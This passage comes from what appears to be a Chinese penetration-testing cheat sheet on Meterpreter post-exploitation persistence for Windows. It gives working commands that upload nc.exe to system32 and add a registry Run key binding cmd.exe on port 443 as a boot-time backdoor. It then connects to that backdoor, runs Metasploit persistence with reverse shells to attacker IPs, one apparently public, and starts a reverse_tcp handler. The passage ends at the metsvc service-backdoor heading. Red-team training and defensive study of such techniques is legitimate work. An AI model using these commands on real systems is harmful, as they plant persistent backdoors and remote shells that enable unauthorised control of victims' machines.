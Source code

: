 ![image-20210120233725906](../../img/image-20210120233725906.png)

```
meterpreter >execute  -H -i -f cmd.exe #隐藏交互和shell一样
```

#### 后门植入

##### nc 后门

```shell

upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32 #上传nc
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run   #枚举run下的key
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v lltest_nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e cmd.exe' #设置键值
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v lltest_nc   #查看键值
 
nc -v 192.168.159.144 443  #攻击者连接nc后门
#下次开机就可以实现重启
```

metasploit自带的后门有两种方式启动的，一种是通过启动项启动(persistence)，一种是通过服务启动(metsvc)，另外还可以通过persistence_exe自定义后门文件。

##### persistence启动项后门

在C:\Users***\AppData\Local\Temp\目录下，上传一个vbs脚本
在注册表HKLM\Software\Microsoft\Windows\CurrentVersion\Run\加入开机启动项

```shell
run persistence –h  #查看帮助
run persistence -X -i 5 -p 6661 -r 192.168.159.134
#-X指定启动的方式为开机自启动，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
run persistence -X -i 5 -p 378 -r 120.78.180.104
```



```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST 192.168.0.1
msf > set LPORT 3389
msf > exploit
提前启动，等待主机连接
```

2)**metsvc服务后门**
